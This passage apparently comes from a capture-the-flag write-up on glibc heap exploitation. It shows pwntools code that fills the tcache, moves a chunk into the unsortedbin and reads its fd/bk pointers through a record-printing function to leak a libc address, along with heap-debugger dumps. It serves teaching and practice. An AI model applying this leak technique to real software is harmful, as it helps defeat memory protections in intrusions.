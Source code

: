 The idea of making it go into `unsortedbin` is that when `unsortedbin` is used, there would shown up glibc addresses as `fd` and `bk` pointer as `unsortedbin` is in the `malloc_state` which is inside `libc.so` 

```py
for i in range(7):
    add_record(0x200, b'AAAAAAAA') # 0 

# previous chunks with 0x200 description size cannot get to the glibc addresses 
# therefore allocate a new chunk 

add_record(0x10, b'BBBBBBBB')#7, 6
print_record()
```
Allocate 6 (12) chunks that are in the `tcachebin` first. Then, there would be a 0x20 byte freed chunk in the `fastbin` (the record) and 0x200 byte chunk (description of the record) in `unsortedbin`.  
```
Free chunk (fastbins) | PREV_INUSE
Addr: 0x5629e5adbfb0
Size: 0x20 (with flag bits: 0x21)
fd: 0x00

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x5629e5adbfd0
Size: 0x210 (with flag bits: 0x211)
fd: 0x7fc6f1d15be0
bk: 0x7fc6f1d15be0
```
`add_record(0x10, b'BBBBBBBB')#7, 6` allocates two more chunks, a record and its corresponding description.
```
Allocated chunk | PREV_INUSE
Addr: 0x5629e5adbfd0
Size: 0x20 (with flag bits: 0x21)

Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x5629e5adbff0
Size: 0x1f0 (with flag bits: 0x1f1)
fd: 0x7fc6f1d15be0
bk: 0x7fc6f1d15be0
```
The allocated chunk shown here
```
Allocated chunk | PREV_INUSE
Addr: 0x5629e5adbfd0
Size: 0x20 (with flag bits: 0x21)
``` 
is the description chunk allocated with 0x20 bytes specifically from the `unsortedbin`, after `fastbin` allocated 0x20 bytes to the record chunk.

Therefore, we can make use of the above chunk to perform a read on the glibc addresses of 
```
Free chunk (unsortedbin) | PREV_INUSE
Addr: 0x5629e5adbff0
Size: 0x1f0 (with flag bits: 0x1f1)
fd: 0x7fc6f1d15be0
bk: 0x7fc6f1d15be0
```
by using `print_record()`
```c
write(STDOUT_FILENO, records[i]->description, records[i]->description_size);
```
Corresponding code on the script that outputs and leak the libc address:
```py
print_record()
p.recvuntil(b"Description: BBBBBBBB")
leak = p.recvuntil(b'\x7f')[:6].ljust(8, b'\x00')
```